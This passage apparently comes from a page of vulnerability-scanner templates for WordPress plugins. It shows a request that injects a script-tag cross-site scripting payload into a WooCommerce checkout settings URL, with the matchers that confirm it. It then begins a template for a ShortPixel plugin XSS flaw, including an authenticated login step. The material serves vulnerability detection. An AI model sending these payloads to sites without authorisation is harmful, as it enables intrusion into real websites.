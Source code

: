 ### Step - 2

```
GET /wp-admin/admin.php?page=wc-settings&tab=wooccm&section=advanced&">--><script>alert(1)</script> HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. > -->\<script>alert(1)\</script>&action=wooccm_nuke_options&

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress ShortPixel Image Optimizer \<4.22.10 - Cross-Site Scripting

## Description

- WordPress ShortPixel Image Optimizer 4.22.10 does not escape generated URLs before outputting them back in an attribute, leading to reflected cross-site scripting.
- severity - medium
- tags - shortpixel,authenticated,wpscan,xss,wp-plugin,wp,wordpress

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
